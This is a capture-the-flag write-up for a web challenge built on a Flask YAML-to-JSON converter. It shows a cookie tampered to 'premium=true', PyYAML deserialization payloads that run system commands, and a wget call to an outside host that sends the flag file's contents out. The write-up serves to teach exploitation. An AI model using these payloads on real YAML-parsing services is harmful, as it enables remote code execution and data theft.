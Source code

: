 # Challenge Name: Yaml-2-Json




![date](https://img.shields.io/badge/date-17.04.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![misc category](https://img.shields.io/badge/category-Web-blueviolet.svg)   
![level](https://img.shields.io/badge/level-Medium-blue.svg)
![score](https://img.shields.io/badge/score-50-blue.svg)

## Description

Checkout my useful tool to convert YAML to JSON format. http://yaml-2-json.ctf2021.hackpack.club

Hint : flag.txt is located in /tmp/flag.txt

## Detailed solution

Starting by opening the challenge link https://yaml-2-json.ctf2021.hackpack.club/ 

It's a flask app that Parse any YAML to JSON 

![image](https://user-images.githubusercontent.com/72421091/115270968-60d2e900-a12c-11eb-8c71-51920603e28d.png)

We can see a text a the end of the page  

```
you must have a premium account to access all the features
```

Checking the request headers we can see that we have a cookie 
  
```
cookie: _890f5=http://192.168.181.16:10993; premium=false
``` 
Let's change premium value to true ```premium=true```  

``` 
curl 'https://yaml-2-json.ctf2021.hackpack.club/' \
  -H 'authority: yaml-2-json.ctf2021.hackpack.club' \
  -H 'cache-control: max-age=0' \
  -H 'sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'sec-fetch-site: none' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-user: ?1' \
  -H 'sec-fetch-dest: document' \
  -H 'accept-language: en-US,en;q=0.9,ar;q=0.8,fr;q=0.7' \
  -H 'cookie: _890f5=http://192.168.181.16:10993; premium=true' \
  --compressed
``` 
Output 

![image](https://user-images.githubusercontent.com/72421091/115272571-118db800-a12e-11eb-8851-ba9552fb9de3.png)  

Our app is a flask app which is a micro web framework written in Python. The app use YAML to parse any YAML to JSON.  

There's a known vulnerability in PyYamal, a deserialization RCE attack

https://dl.packetstormsecurity.net/papers/general/yaml-deserialization.pdf

I started by a payload to run the command "ls" to list the files in your current directory 

```
!!python/object/apply:subprocess.check_output ["ls"]
``` 

![image](https://user-images.githubusercontent.com/72421091/115276930-2d478d00-a133-11eb-9d1f-2f27b89a6c32.png)


We can see all the files in the current directory /app 

The hint from description mention that flag.txt is located in /tmp/flag.txt 

So we need to read the /tmp/flag.txt to get our flag  

The method used is kinda limit to simple commands like ls,pwd.. 

We can use os.system which can execute many commands but the probleme is that the output is blind we only get **0** if the command is successful 

![image](https://user-images.githubusercontent.com/72421091/115275175-025c3980-a131-11eb-8444-63c14c8967cc.png)

I'm gonna use curl to print the command output to my python web server 

Payload : ```!!python/object/apply:os.system ["wget http://10.10.10.10:8080/?`cat /tmp/flag.txt`"]```

![image](https://user-images.githubusercontent.com/72421091/115277357-b4950080-a133-11eb-9195-168e9b0f9789.png)


![image](https://user-images.githubusercontent.com/72421091/115276504-9ed30b80-a132-11eb-9ca7-0ff3dec4c682.png)

Deocde the url encoded ```flag%7BPy_PyYaml_Yaml_Py%7D``` and we got our flag  

## Flag

```
flag{Py_PyYaml_Yaml_Py}
```

